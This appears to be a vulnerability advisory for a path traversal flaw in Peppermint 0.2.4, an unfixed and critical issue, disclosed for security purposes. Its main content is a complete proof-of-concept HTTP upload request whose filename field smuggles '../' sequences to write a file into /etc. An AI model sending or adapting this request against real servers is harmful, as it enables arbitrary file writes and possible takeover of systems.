 # Peppermint-Lab  - Path Traversal


**CVE-ID:** -


**Vendor:** [Peppermint-Lab](https://peppermint.sh)

**Affected Product:** Peppermint

**Affected Versions:** 0.2.4

**Vulnerability:** Path Traversal

**Status:** Unfixed

**Severity:** Critical


## Details

An attacker can upload files to any location on the server.

The following request creates a text file in `/etc/hacked.txt`.


```http
POST /api/v1/users/file/upload HTTP/1.1
Host: localhost:5000
Content-Length: 608
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykBOktxIBgtA2RNvF
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
sec-ch-ua-platform: "Linux"
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/?x=hafut9m31%5C%3C%3E%27%22%3A
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: next-auth.callback-url=http%3A%2F%2Flocalhost%3A5000%2F; next-auth.session-token=eyJhbGciOiJkaXIiLCJlbmMiOiJBMjU2R0NNIn0..QRlwsSQIj2KJe5xC.8ESNMapwdVYhvnxjfM6Bs_BKEdYCE1SqLoqYi1em786fDlr5wmyfduI0jvyat-Y8l5I8aBnv1Ghe59d0vyzUL_6WKTB5nMbefxb1UJwha07Fpy4Q0kcHpNrtvJC-h4N4w0Asn4kVpa71-h8ob2uXVPF9gmY7nBDCMpRAEJsIHxK4bHOVc3t1QnZgyQE0RmNWB--NPimJhC6xbzBjO5TkwP3QcdcxSTJe5j5MLp4-XjwgAUSKcRXu00UCewrrWVE1Cz5xOXT32dJ6vCo.rw4PmSKJYAiAwfHjv2yE0w
Connection: close

------WebKitFormBoundarykBOktxIBgtA2RNvF
Content-Disposition: form-data; name="file"; filename="../../../../../../../../etc/hacked.txt"
Content-Type: plain/text

test

------WebKitFormBoundarykBOktxIBgtA2RNvF--
```

